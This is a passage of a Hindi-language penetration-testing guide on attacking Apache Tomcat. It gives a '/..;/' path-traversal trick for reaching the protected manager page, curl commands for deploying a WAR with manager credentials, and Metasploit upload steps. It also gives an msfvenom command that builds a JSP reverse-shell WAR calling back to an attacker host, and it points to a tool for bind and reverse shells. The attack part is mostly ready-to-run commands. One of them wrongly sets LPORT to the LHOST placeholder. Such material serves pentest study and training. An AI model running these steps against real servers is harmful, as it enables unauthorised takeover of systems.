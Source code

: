 ### **पथ यात्रा शोषण**

कुछ [**टॉमकैट की संवेदनशील कॉन्फ़िगरेशन**](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/) में आप पथ का उपयोग करके टॉमकैट में संरक्षित निर्देशिकाओं तक पहुँच प्राप्त कर सकते हैं: `/..;/`

तो, उदाहरण के लिए, आप **टॉमकैट प्रबंधक** पृष्ठ तक पहुँचने में सक्षम हो सकते हैं: `www.vulnerable.com/lalala/..;/manager/html`

**एक और तरीका** इस ट्रिक का उपयोग करके संरक्षित पथों को बायपास करने का है: `http://www.vulnerable.com/;param=value/manager/html`

## RCE

अंत में, यदि आपके पास टॉमकैट वेब एप्लिकेशन प्रबंधक तक पहुँच है, तो आप **एक .war फ़ाइल अपलोड और तैनात कर सकते हैं (कोड निष्पादित करें)**।

### सीमाएँ

आप केवल तभी WAR तैनात कर पाएंगे जब आपके पास **पर्याप्त विशेषाधिकार** (भूमिकाएँ: **admin**, **manager** और **manager-script**) हों। ये विवरण आमतौर पर _tomcat-users.xml_ के तहत पाए जा सकते हैं जो `/usr/share/tomcat9/etc/tomcat-users.xml` में परिभाषित होता है (यह संस्करणों के बीच भिन्न होता है) (देखें [POST ](./#post)section)।
```bash
# tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed

# deploy under "path" context path
curl --upload-file monshell.war -u 'tomcat:password' "http://localhost:8080/manager/text/deploy?path=/monshell"

# undeploy
curl "http://tomcat:Password@localhost:8080/manager/text/undeploy?path=/monshell"
```
### मेटास्प्लॉइट
```bash
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```
### MSFVenom Reverse Shell

1. तैनात करने के लिए वार बनाएँ:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war
```
2. `revshell.war` फ़ाइल अपलोड करें और इसे एक्सेस करें (`/revshell/`):

### [tomcatWarDeployer.py](https://github.com/mgeeky/tomcatWarDeployer) के साथ बाइंड और रिवर्स शेल
